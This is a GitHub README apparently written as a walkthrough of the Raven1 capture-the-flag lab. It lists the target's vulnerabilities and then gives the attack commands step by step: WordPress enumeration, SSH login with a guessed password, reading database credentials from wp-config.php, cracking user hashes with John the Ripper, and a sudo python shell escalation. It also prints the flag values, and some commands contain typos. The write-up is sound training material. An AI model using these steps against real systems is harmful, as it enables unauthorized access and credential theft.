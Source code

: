 # Raven1 CTF Pen-Test

**If you're attempting this CTF, I would urge you to _TRY HARDER_ before proceeding as, obviously, there are spoilers below!**

The following vulnerabilities were identified:

1.	Weak password requirements 
  a.	CWE-521 https://cwe.mitre.org/data/definitions/521.html 
  b.	CWE-522 https://cwe.mitre.org/data/definitions/522.html 
  c.	Severity: Critical 

2.	Wordpress – username enumaration
  a.	CVE-2009-2335 https://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-2335 
  b.	Severity: Medium

3.	Wordpress – wp-config.php & sensitive information exposure - externally accessible
  a.	CWE-538 https://cwe.mitre.org/data/definitions/538.html 
  b.	Severity: High
 ___________________________________________________
 
 ## Exploitation
 
Nmap identifies Apache Http and by browsing the target IP we can identify that wordpress is being used.
 
We can then enumerate wordpress by:
```
Wpscan --url http://192.168.1.110/wordpress/ --enumerate
```

This provides clues as to which directories to look through.
By using inspect element, on each page we are able to locate **Flag1**

●	**flag1.txt: b9bbcb33e11b80be759c4e844862482d**

<img src="https://github.com/OmarG13/Raven1-Pen-Test/blob/main/Images/Picture3.png">

____________________________________________


We then proceed to explore further based on the information gathered thus far.
Both Michael and Steven have been identified as users. 
A quick integrity check of their passwords reveals that Michael is using his name as his password!
This allows us to SSH into Michael's account and search for flags, and sure enough, **Flag2** is found.

```
ssh micahel@192.168.1.110
```
Password: michael

<img src="https://github.com/OmarG13/Raven1-Pen-Test/blob/main/Images/Picture4.png">

```
find / -type f -iname flag*.*
```

●	**flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c**

<img src="https://github.com/OmarG13/Raven1-Pen-Test/blob/main/Images/Picture6.png">

____________________________________

While still logged in as Michael, we navigate to the wp-config.php file.
The file is available and accessible.
Simply opening the file in a text editor reveals the username and password of the MySQL database.
MySQL username: root
MySQL password: R@v3nSecurity


<img src="https://github.com/OmarG13/Raven1-Pen-Test/blob/main/Images/Picture7.png">

Within the MySQL database we then navigate the various tables and locate **Flag3**

```
Mysql -r root -p
use wordpress;
show tables;
select * from wp_posts;
```
●	**Flag3.txt: afc01ab56b50591e7dccf93122770cd2**

<img src="https://github.com/OmarG13/Raven1-Pen-Test/blob/main/Images/Picture9.png">

*You can also clearly see that Flag4 is right there as well, however, in the interest of exploring this CTF further, we continue investigating as below.*

______________________________________


Still within the MySQL database, we can find the password hashes of the users and crack them to gain access to Steven's account.

```
Mysql -r root -p
use wordpress;
show tables;
select * from wp_users;
```

<img src="https://github.com/OmarG13/Raven1-Pen-Test/blob/main/Images/Picture10.png">


Copy/paste the hashes into wp_password_hashes.txt and use John The Ripper to crack it.

```
John --wordlist=usr/share/wordlists/rockyou.txt wp_password_hashes.txt
```

Steven’s password: pink84

We can now log into Steven's account, spawn a shell, and find **Flag4**

```
Ssh steven@192.168.1.110
Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
Sudo find / -type f -iname flag*
```

●	**Flag4.txt: 715dea6c055b9fe3337544932f2941ce**

<img src="https://github.com/OmarG13/Raven1-Pen-Test/blob/main/Images/Picture16.png">
